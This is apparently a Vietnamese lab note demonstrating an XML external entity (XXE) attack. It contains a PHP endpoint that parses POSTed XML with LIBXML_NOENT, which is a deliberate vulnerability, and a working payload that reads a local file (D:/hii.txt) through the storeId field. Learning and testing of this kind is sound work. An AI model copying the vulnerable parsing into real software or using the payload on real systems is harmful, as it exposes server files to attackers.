

- Em có đoạn check như sau:


```
<?php
ini_set('display_errors', 1);
ini_set('display_startup_errors', 1);
error_reporting(E_ALL);
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $xml = file_get_contents('php://input');
    if ($xml) {
        $data = simplexml_load_string($xml, null, LIBXML_NOENT);
        if ($data !== false) {
            $productId = $data->storeId;

            echo "The productId is: " . $productId;
        } else {
            echo "Failed to parse XML data";
        }
    } else {
        echo "No XML data received";
    }
} else {

    echo "Only POST requests are allowed";
}
?>


```

- Khi mà em chọn vật phẩm thì sẽ gửi đến 1 xml đến sever và sẽ nhận được id vật phẩm đã chọn ạ

- Em sẽ tạo 1 entity để đọc nội dung file file:///D:/hii.txt

```

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///D:/hii.txt"> ]>
<stockCheck><productId>
1
</productId><storeId>&xxe;</storeId></stockCheck>

```
- Và kết quả em nhận được là nội dung của file

